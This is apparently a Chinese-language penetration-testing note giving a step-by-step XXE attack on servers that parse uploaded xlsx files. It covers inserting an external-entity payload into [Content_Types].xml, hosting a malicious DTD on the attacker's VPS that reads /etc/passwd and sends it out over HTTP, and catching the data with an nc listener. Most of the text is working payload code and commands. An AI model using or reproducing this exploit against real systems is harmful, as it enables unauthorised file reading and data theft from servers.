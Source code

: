 ## 制作插入Payload的xlsx文件

创建`xlsl`文件，后缀改为 .zip 然后解压缩。

> ⚠️ xls是一个特有的二进制格式,xls没办法插入Payload进行XXE攻击.

在[Content_Types].xml文件中插入Payload

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<yourvpsip:http-port>/malicious.dtd"> %xxe;]>
```

![](https://github.com/user-error-404/PenetrateNotes/blob/main/img/EXCEL-XXE.jpg)

将插入Payload后的文件重新压缩，再将压缩包的后缀名修改为 `xlsx`

## 在vps使用http托管恶意dtd文件

在恶意malicious.dtd文件所在目录启动http服务：
```python
python3 -m http.server 端口号
python2 -m SimpleHTTPServer 端口号
```

恶意文件 [malicious.dtd](https://github.com/user-error-404/PenetrateNotes/blob/main/file/malicious.dtd)：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://<yourvpsip:nc-port>/?x=%file;'>">
%eval;
%exfiltrate;
```

## 在vps开启nc监听

```bash
nc -lvvp 8081
```




